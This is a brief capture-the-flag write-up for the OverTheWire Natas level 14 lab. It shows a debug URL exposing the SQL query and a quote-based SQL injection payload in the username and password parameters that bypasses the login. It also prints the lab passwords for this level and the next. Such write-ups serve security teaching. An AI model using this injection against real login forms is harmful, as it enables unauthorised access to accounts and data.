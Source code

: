 # [natas 14](http://natas14.natas.labs.overthewire.org)

    Username: natas14
    Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

Read the sourcecode, we can browse to

    http://natas14.natas.labs.overthewire.org/?username=test&password=test&debug

We can see the username and password in double quotes.

    Executing query: SELECT * from users where username="test" and password="test"

If we add double quote in username and password, the SQL language is break.

    http://natas14.natas.labs.overthewire.org/?username="or"0"="0&password="or"0"="0&debug

    Executing query: SELECT * from users where username=""or"0"="0" and password=""or"0"="0"
    Successful login!
    The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

